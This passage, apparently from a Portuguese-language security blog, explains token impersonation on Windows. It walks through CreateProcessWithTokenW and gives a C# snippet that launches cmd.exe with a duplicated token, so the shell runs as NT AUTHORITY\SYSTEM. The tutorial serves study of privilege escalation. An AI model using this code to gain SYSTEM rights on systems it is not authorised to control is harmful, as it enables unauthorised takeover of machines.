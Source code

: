 Note que estamos criando um novo processo do zero especificando o token de segurança no argumento `hToken`. Vale ressaltar que:

- `LogonFlags`: enum que contém valores para o tipo de logon que será realizado quando o processo for aberto. Existem dois tipos: `LOGON_WITH_PROFILE⁴` e `LOGON_NETCREDENTIALS_ONLY⁵`. [Veja aqui](https://learn.microsoft.com/pt-br/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).
- `CreateProcessFlags`: enum que contém valores de como o processo será criado, como: `CREATE_NO_WINDOW` para não criar janela, `CREATE_PROTECTED_PROCESS` para criar um processo protegido, entre outros. [Veja aqui](https://learn.microsoft.com/pt-br/windows/win32/procthread/process-creation-flags).
- `STARTUPINFO`: struct que contém valores sobre estações de janelas, área de trabalho, aparência da janela de um processo, entre outros. [Veja aqui](https://learn.microsoft.com/pt-br/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa).
- `PROCESS_INFORMATION`: struct que contém valores sobre informações do processo recém-criado. [Veja aqui](https://learn.microsoft.com/pt-br/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information).

```csharp
Impersonate.PInvokes.STARTUPINFO si = new Impersonate.PInvokes.STARTUPINFO();
Impersonate.PInvokes.PROCESS_INFORMATION processInformation = new Impersonate.PInvokes.PROCESS_INFORMATION();

bool result = Impersonate.PInvokes.CreateProcessWithTokenW(
	phNewToken,
	Impersonate.PInvokes.LogonFlags.LOGON_NETCREDENTIALS_ONLY,
	@"C:\Windows\System32\cmd.exe",
	null,
	0,
	IntPtr.Zero,
	null,
	ref si,
	out processInformation
);

if (result == false)
{
	Console.WriteLine($"CreateProcessWithTokenW ERROR: {Marshal.GetLastWin32Error()}");
	Environment.Exit(0);
}

Console.WriteLine("[+] (CreateProcessWithTokenW) Success!");
```

Feito isso, caso a execução da API seja um sucesso, um novo processo "cmd.exe" será criado com o nível de permissão que almejamos graças ao token de segurança. Neste caso, especificamos um processo que está rodando como `NT AUTHORITY\SYSTEM`.

![Desktop View](https://blackmetal2000.github.io/assets/img/tokens/imagem3.png)
